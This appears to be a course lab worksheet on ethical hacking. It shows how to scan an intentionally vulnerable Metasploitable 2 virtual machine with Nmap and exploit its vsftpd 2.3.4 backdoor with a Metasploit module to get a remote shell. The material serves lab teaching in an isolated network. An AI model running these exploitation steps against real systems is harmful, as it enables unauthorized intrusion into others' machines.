








# Experiment 2: Simulated Ethical Hacking with Metasploit

## Aim

To perform safe and controlled exploitation of a vulnerable virtual machine using the Metasploit Framework.

## Requirements

1. Kali Linux
2. Metasploitable 2
3. VirtualBox/VMware
4. Nmap
5. Metasploit Framework
6. Host-Only Adapter/Internal Network

## Theory

Metasploit is a penetration testing framework used to identify and exploit vulnerabilities in computer systems. In this experiment, Nmap is used for reconnaissance and Metasploit is used for controlled exploitation of a vulnerable service on Metasploitable 2.

## Procedure

### Step 1: Network Setup

Connect Kali Linux and Metasploitable 2 to the same Host-Only Adapter or Internal Network.

Check the IP address using:

ifconfig

### Step 2: Verify Connectivity

Use the following command from Kali Linux:

ping <Metasploitable_IP>

Verify that Kali Linux can communicate with Metasploitable 2.

### Step 3: Perform Nmap Scanning

Scan the target machine using:

nmap -sS -sV -O <Metasploitable_IP>

Identify the open ports and running services. Look for the FTP service running on port 21.

### Step 4: Start Metasploit

Start the Metasploit Framework using:

msfconsole

### Step 5: Search for the Vulnerable Service

Search for the VSFTPD vulnerability:

search vsftpd

### Step 6: Select the Exploit

Select the appropriate VSFTPD exploit:

use exploit/unix/ftp/vsftpd_234_backdoor

Then check the required options:

show options

### Step 7: Configure the Target

Set the IP address of Metasploitable 2:

set RHOST <Metasploitable_IP>

Set the FTP port:

set RPORT 21

### Step 8: Execute the Exploit

Run the exploit:

exploit

### Step 9: Verify the Session

If a command shell is obtained, verify the system information using:

whoami
uname -a
ifconfig

### Result:

The experiment demonstrated safe and controlled exploitation of an intentionally vulnerable Metasploitable 2 virtual machine using Nmap and the Metasploit Framework.

### Conclusion:

The experiment helped in understanding the basic ethical hacking process of reconnaissance, vulnerability identification, controlled exploitation, and verification.
